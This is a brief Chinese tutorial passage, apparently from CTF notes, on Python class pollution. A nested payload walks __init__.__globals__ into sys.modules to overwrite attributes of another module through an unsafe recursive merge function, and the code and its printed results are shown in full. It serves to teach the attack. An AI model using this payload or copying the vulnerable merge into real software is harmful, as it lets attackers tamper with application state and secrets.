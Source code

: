 ### 加载关系复杂

CTF等实际环境中往往是多层模块导入，甚至是内置模块或第三方模块。这时候若层层查找`import`显得困难。（`__globals__`找到`import`进来的模块后继续找`__globals__`）

`sys`模块的`modules`属性以字典的形式包含了程序自开始运行时所加载过的模块。

```python
import target
import sys


class cls:
    def __init__(self):
        pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


obj = cls()
payload = {
    "__init__": {
        "__globals__": {
            "sys": {
                "modules": {
                    "target": {
                        "secret": "No Way~",
                        "target_class": {
                            "secret_var": "Polluted~"
                        }
                    }
                }
            }
        }
    }
}
print(target.secret)  # 123
print(target.target_class.secret_var)  # flag
merge(payload, obj)
print(target.secret)  # No Way~
print(target.target_class.secret_var)  # Polluted~
```
